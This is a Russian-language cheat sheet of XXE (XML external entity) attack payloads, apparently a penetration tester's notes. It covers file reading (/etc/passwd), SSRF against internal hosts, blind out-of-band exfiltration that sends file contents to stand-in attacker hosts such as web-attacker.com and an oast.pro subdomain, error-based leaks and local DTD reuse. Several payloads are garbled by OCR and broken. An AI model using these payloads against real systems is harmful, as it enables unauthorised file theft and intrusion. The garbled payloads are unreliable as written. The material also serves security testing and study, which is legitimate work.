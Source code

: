 
# При видимой xxe

#### Внедрение простой внутренней сущности:
```
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe "TEST"> ]>
<root>&xxe;</root>
```
- Если в ответе появляется TEST, DTD разрешен.

#### Попытка загрузки внешней сущности:
```
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://attacker.com/payload"> ]>
<root>&xxe;</root>
```
- Если сервер отправляет запрос к attacker.com, внешние сущности разрешены.

#### Использование XXE для извлечения файлов
```
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
		<!ENTITY xxe SYSTEM "file:///etc/passwd">
	]>
	<stockCheck>
		<productId>&xxe;</productId>
	</stockCheck>
```

#### Использование XXE для SSRF-атак
```
	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
	<stockCheck>
		<foo>&xxe;</foo>
	</stockCheck>
```

#### Использование параметризованных внешних сущностей
```
<Pxml version="1.0" encoding="utf-8"?>
<! DOCTYPE example [
	‹!ENTITY % xxe SYSTEM "https://*free.beeceptor.com/xxe_endpoint"›
	%xxe;
]>
<example> 
</examples
```


----
# При blind xxe

### Обнаружение слепого XXE с использованием внеполосных (OAST) методов

###### Пингуем
```
<!DOCTYPE stockCheck [ 
	<!ENTITY xxe SYSTEM "http://web-attacker.com"> 
]>
<root>&xxe;</root>
```
или
```
<!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "http://web-attacker.com"> 
	%xxe; 
]>
```

Развиваем атаку делая полезную нагрузку у себя на сервере
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfile SYSTEM 'https://http://web-attacker.com/%file;'>">
```
- смотрим логи подключения

----
# Дополнительная информация

#### Сущности параметров XML с CDATA
```
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % end "]]>">
  <!ENTITY % wrapper "<!ENTITY &#x25; send SYSTEM 'https://YOUR-SUBDOMAIN.oast.pro/?data=%start;%file;%end;'>">
  %wrapper;
]>
<root>%send;</root>
```
**Объяснение payload**
- `%file` — читает файл `/etc/passwd`.
- `%start` и `%end` — обрамляют данные в `CDATA`, чтобы избежать ошибок парсера из-за спецсимволов.
- `%wrapper` — создает сущность `%send`, которая отправляет содержимое файла на наш сервер через URL-параметр `data`.


#### Использование слепого XXE для извлечения данных через сообщения об ошибках
```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; 
%error;
```
- Определяет параметрическую сущность XML с именем `file`, содержащую содержимое файла `/etc/passwd`.
- Использует `error`сущность, так что ее значение оценивается путем попытки загрузить несуществующий файл, что приводит к сообщению об ошибке, содержащему имя несуществующего файла, которое является содержимым файла `/etc/passwd`.

#### Преобразование локального файла DTD для повторного использования
```
<!DOCTYPE foo [ 
	<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
	<!ENTITY % custom_entity '
		<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
		 <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
		  &#x25;eval; 
		  &#x25;error; 
	'> 
	  
	  %local_dtd; 
]>
```
1. Загрузка локального DTD-файла
2. Изменение сущности в локальном файле `custom_entity`
3. Вызываем исключение в локальном dtd файле
4. Получаем ошибку с локального dtd файла включая конф. данные

